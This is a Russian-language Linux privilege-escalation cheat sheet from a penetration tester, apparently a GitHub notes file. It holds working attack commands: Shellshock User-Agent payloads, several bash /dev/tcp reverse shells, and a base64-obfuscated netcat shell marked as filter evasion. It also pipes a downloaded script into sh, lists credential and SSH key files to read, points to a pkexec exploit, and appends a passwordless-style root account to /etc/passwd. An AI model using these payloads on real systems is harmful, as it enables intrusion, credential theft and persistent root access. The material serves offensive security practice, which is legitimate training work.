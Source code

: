 # Скрипты повышения привелегий 

        https://github.com/rebootuser/LinEnum

        https://github.com/rebootuser/LinEnum.git

        https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

        wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh | sh

# enumeration

дистрибутив;

        cat /etc/issue
        cat /etc/*-release

версия ядра и разрядность;
       
        cat /proc/version
        uname -a

сетевые интерфейсы, порты, службы;
        
        netstat
        ss -tulpn

процессы
       
        ps aux
        pspy64 (Надо скачивать)

        https://github.com/DominicBreuker/pspy

        wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64s       

Файлы, которые стоит проверить

        /home/user/.bash_history
        /home/user/password.txt
        /home/user/.history
        /home/user/.mysql_history
        /home/user/.ssh/id_rsa

# Разрешенные пермишены

        Sudo -l

        getcap -r / 2>/dev/null


        
curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh

curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"

/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.123/4444 0>&1'

echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

echo bmMgMTkyLjE2OC41MC4xMjMgNDQ0NCAtZSAvYmluL2Jhc2gK | base64 -d | bash   (обход фильтрации)



https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php   (Лучший PHP)

https://www.revshells.com/


# Повысить до tty интелектуальной оболочки командой 

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа

        find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
        find / -type f -user emily 2>/dev/null
# Найти все файлы с пермишеном S

        find / -user root -perm -4000 -exec ls -ldb {} \;

        find / -user root -perm -u=s -type f 2>/dev/null

        find / -perm -u=s 2>/dev/null
# ПОИСК ПАРОЛЕЙ

        cat * | grep -i passw*

        grep -r "passw".

        grep -rni 'enter_network' (поиск везде от текущей)

        for i in $(grep -oP "('.*?')" -R . --no-filename);do x=$(echo -n $i | ent| grep Entropy| awk '{print $3}' ); echo "$x $i"; done | sort -n

(поиск всего, заключенного в  '   ' особенно для паролей с применением ентропии)

        grep -E '[A-Z]{1,9}[-_][a-z]{1,9}' -R .




# pkexec EXPLOIT

Как понять, подвержены ли ваши дистрибутивы уязвимости pkexec:

whereis pkexec

which pkexec

ls -la /usr/bin/pkexec

find / -type f -name pkexec

poc - https://github.com/arthepsy/CVE-2021-4034

# Полезные комманды Линукс

        https://putty.org.ru/articles/unix-linux-ref

# открыть gui 
        open .

# Добавление пользователя с правами root в /etc/passwd

        echo "boot:$(openssl passwd -6 -salt boot password123):0:0:boot:/root:/bin/bash" >> /etc/passwd
